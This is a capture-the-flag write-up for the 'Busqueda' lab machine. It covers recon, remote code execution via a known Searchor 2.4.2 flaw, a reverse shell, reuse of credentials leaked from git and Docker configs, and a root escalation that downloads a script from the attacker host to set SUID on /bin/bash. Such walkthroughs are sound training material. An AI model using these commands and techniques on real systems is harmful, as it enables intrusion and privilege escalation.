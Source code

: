# Busqueda
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.4

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.208
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-12 06:09 EDT
Nmap scan report for 10.10.11.208
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.04 seconds
```

## 2. TCP-80
We can add the VHOST in "/etc/hosts" ad visit the site.

![home](Images/home.png)

The site can be searched starting from an engine, but the most interesting thing is the footer of the page which gives us information about the technologies used to implement the site.

<p align="center">
  <img src="Images/engine.png" />
</p>

## 3. RCE
Googling an exploit for `Searchor 2.4.2` I found a [git repository](https://github.com/jonnyzar/POC-Searchor-2.4.2) where it explains how to perform an RCE.

<p align="center">
  <img src="Images/rce.png" />
</p>

Then I put the payload into a Burp intercepted request and got the shell and the user flag.

```bash
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.208 52422
/bin/sh: 0: can't access tty; job control turned off
$ ls -al
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 May 12 09:43 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
$ cat /home/svc/user.txt
802f3806bf98a2c5d84cb83cc754f8bc
```

## 4. User to ROOT
As you can see from the previous output, there is a *.git* folder, so let's try to understand what it contains.

```bash
$ ls -al .git
total 52
drwxr-xr-x 8 www-data www-data 4096 May 12 09:43 .
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 ..
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 branches
-rw-r--r-- 1 www-data www-data   15 Dec  1 14:35 COMMIT_EDITMSG
-rw-r--r-- 1 www-data www-data  294 Dec  1 14:35 config
-rw-r--r-- 1 www-data www-data   73 Dec  1 14:35 description
-rw-r--r-- 1 www-data www-data   21 Dec  1 14:35 HEAD
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 hooks
-rw-r--r-- 1 root     root      259 Apr  3 15:09 index
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 info
drwxr-xr-x 3 www-data www-data 4096 Dec  1 14:35 logs
drwxr-xr-x 9 www-data www-data 4096 Dec  1 14:35 objects
drwxr-xr-x 5 www-data www-data 4096 Dec  1 14:35 refs
```

But among the files, the most interesting is *config* where, in addition to some credentials, there is a subdomain.

```bash
$ cat .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

By trying the password found (as a possible password reuse), we obtain very important information in terms of privilege escalation as we understand that there is a script that can be run with administrator permissions.

```bash
$ sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
$ sudo -S -l
[sudo] password for svc: jh1usoih2bkjaspwe92
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Trying to execute the command we get information about its use.

```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We execute the command with the first action and get information about the containers that are present.

```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 49 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 49 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Then we run the command with the second action following the directions in the docker [documentation](https://docs.docker.com/engine/reference/commandline/inspect/) and find several passwords.

```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}

$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a6b33fb5a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

But when we try the last action that can be associated with the command, we notice that nothing is done.

```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
```

At this point we can add the previously found subdomain to */etc/hosts*, visit the page and log in as `administrator:jI86kGUuj87guWr3RyF`

![full](Images/gitea.png)

Then we visit the repository containing the scripts.

<p align="center">
  <img src="Images/scripts.png" />
</p>

In particular, analyzing the script called *system-checkup.py* it denotes how, when calling the command **full-checkup** it tries to execute a bash script.

![full](Images/full.png)

So let's create a file named *full-checkup.sh* to add the SUID to */bin/bash*.

```bash
#! /bin/bash

chmod u+s /bin/bash
```

The following steps are as follows:

* upload the file we created;
* run the python script;
* run `bash -p` and get the flag.

```bash
$ wget http://10.10.XX.XX:80/full-checkup.sh
--2023-05-12 10:48:45--  http://10.10.XX.XX/full-checkup.sh
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [text/x-sh]
Saving to: ‘full-checkup.sh’

     0K                                                       100% 1.73M=0s

2023-05-12 10:48:45 (1.73 MB/s) - ‘full-checkup.sh’ saved [33/33]

$ ls
full-checkup.sh
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
$ bash -p
id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
whoami
root
cat /root/root.txt
65e964079c78e0199fc70e21c370a087
```